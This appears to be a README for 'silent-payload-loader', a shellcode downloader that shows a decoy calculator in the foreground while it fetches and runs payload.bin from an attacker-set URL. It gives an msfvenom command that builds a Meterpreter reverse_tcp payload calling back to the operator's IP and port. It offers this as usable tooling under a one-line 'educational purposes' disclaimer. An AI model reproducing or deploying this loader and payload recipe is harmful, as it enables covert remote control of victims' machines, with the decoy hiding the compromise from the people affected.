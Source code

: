 # silent-payload-loader

Powerfull shellcode downloader, I am not good at writing readmes :>
You can replace the fake calc application in the foreground with your own. (calc code: Line 167 - 194)
Start your application from line 167 (The comments should help you)

**Note**: You need to change the defined PAYLOAD_URL in line 18 to your server hosting the payload.bin

## Generate shellcode:
Example for a meterpreter (64bit): 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f raw -o payload.bin
```

## Disclaimer:
This tool is intended for educational and research purposes only. Do not use it without explicit permission. The author is not responsible for any misuse.
